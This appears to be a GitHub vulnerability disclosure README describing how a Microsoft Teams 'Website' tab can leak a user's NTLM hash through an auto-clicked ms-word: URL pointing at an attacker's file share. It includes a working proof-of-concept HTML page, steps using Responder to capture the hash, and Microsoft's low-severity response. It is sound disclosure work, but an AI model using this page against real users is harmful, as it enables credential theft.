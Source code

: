 
# Description

When a user navigates to a "Website" tab  that directs to a specially designed webpage, it can result in the exposure of the NTLM hash through the activation of an Office URL scheme, thereby reducing the process to a single-click path for the leak.

If one attempts to open a link in the format `ms-word:ofv|u|file://Share/File.docx` from a browser, the following steps are required:

1- The user must confirm their intention to open Word.

2- The user must acknowledge and accept the risks as indicated by the warning message from MS Office.

However, on the Website tab, the user's action is simplified to only accepting the risk.



# Reproduction steps

 1. Run Responder on an "attacker" machine
 2. Serve an HTML page containing the code below:
   <!DOCTYPE html>
    <html>
    <head>
        <title>Auto Open Document</title>
    </head>
    <body>
        <a href="ms-word:ofv|u|file://ResponderIP_Or_MachineName/File.docx" id="autoOpenLink"></a>
        <script>
            window.onload = function() {
                document.getElementById('autoOpenLink').click();
            };
        </script>
    </body>
    </html>
 3. In Teams, set up a "Website" tab that directs to the webpage you have just set up.
 4. Access the "Tab."

When you visit the Tab, a JavaScript-triggered link automatically initiates the opening of Word. If the user agrees to the prompt in Word by clicking "Yes," their NTLM hash is transmitted to the "attacker's" machine.

# Demo
![PoC](https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/TeamNTLM_V3.gif?raw=true)

# Discloser

> On Wed, Mar 27, 2024, 20:23 Microsoft Security Response Center <[secure@microsoft.com](mailto:secure@microsoft.com)<mailto:[secure@microsoft.com](mailto:secure@microsoft.com)>> wrote:  
Hello,  
Thank you for your submission. We determined your finding is valid but does not meet our bar for immediate servicing because the severity of the issue is low. Our engineers indicated that a user would still have to consent in Word or other Office clients before the NTLM is leaked, which reduces the severity. However, weve marked your finding for future review as an opportunity to improve our products, and as a feature issue to improve upon. I do not have a timeline for this review. As no further action is required at this time, I am closing this case.  
Regards,  
MSRC

Looks fixed in Microsoft Teams version **24033.813.2773.520.**
